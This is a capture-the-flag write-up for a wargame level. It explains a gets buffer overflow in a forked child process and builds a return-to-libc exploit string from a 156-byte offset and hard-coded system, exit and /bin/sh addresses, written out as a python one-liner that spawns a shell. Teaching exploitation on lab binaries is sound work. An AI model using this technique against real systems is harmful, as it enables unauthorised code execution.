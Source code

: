 # Level04

![](Ressources/img/level04_launch.png)

The program waits a shellcode as inputs. Let's use [gdb and radare](Ressources/gdb.md) to understand what's going on.

The `gets` call is vulnerable to buffer overflow, lets try to overflow and overwrite `EIP`, and so take control of the program.
Because `gets` is called by the child process, to investigate in gdb we need to follow the child using the command `set follow-fork-mode child`.

Using the following example with this [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find we reach the `EIP` after `156` bytes.

![](Ressources/img/offset.png)

However, if we try to insert a malicious shellcode which opens a shell the child process is killed. 
So let's try a return-to-libc attack. First, we need the address of `system`, `exit` and `/bin/sh`.

![](Ressources/img/address.png)

We can build our exploit string:

1. Buffer offset = 156 
2. `system` address = `0xf7e6aed0`
3. `exit` address = `0xf7e5eb70`
4. `/bin/sh` address = `0xf7f897ec`
   
`(python -c "print 'A' * 156 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xf7\xf8\x97\xec'[::-1]" ; cat) |./level04`

![](Ressources/img/level05.png)
